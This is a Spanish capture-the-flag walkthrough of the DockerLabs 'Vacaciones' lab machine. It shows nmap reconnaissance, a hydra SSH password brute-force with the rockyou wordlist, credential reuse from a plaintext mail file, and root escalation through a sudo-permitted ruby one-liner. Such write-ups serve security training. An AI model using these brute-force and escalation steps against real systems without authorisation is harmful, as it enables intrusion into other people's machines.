 # Máquina Vacaciiones

Dificultad -> Muy fácil

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4116eb546434d169eedcd9219c72a5c1 (RSA)
|   256 f0c42b02503a49a7a234b80961fd2c6d (ECDSA)
|_  256 dfe946319aef0d81311f77e429f5c988 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Al inspeccionar la web encontramos ese comentario en el código fuente:

![Pasted image 20240425184410](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1525b762-1c0b-4d91-a142-fc3fed1ae569)

--------------
## Explotación

Utilizamos hydra con los usuarios **camilo** y **juan** al **ssh**:

```shell
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

Encontramos las credenciales de camilo -> **camilo:password1**

Nos conectamos como el usuario camilo y estamos dentro !

------------
## Escalada de privilegios

Revisamos el supuesto correo que nos indicaba en la web:

```shell
cd /var/mail
cd camilo
cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Probamos la contraseña con el usuario **juan** y funciona. -> **juan:2k84dicb**
Hemos migrado al usuario **juan**.

Hacemos un **sudo -l**

```shell
sudo -l
---------------------------------
User juan may run the following commands on b078e5dff54b:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Podemos ejecutar **ruby** como el usuario **root**, si no sabemos como abusar de esto, siempre podemos recurrir a [GTFOBins]()

```shell
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

```shell
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina.

